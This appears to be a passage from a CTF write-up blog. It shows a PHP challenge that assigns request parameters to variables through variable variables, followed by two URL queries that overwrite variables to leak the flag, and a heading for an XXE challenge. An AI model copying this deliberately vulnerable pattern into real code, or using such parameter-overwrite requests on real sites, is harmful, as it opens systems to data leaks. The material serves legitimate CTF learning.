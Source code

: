 index.php

```php
......
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;
```

??? 有点乱, 随便传了个参就得到 flag 了

```
http://42c649fb-b7ef-49f6-9761-40c7b31f6a84.node4.buuoj.cn:81/?yds=flag
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208252104793.png)

另一种方法

```
http://42c649fb-b7ef-49f6-9761-40c7b31f6a84.node4.buuoj.cn:81/?is=flag&flag=flag
```

## [NCTF2019]Fake XML cookbook

常规 xxe
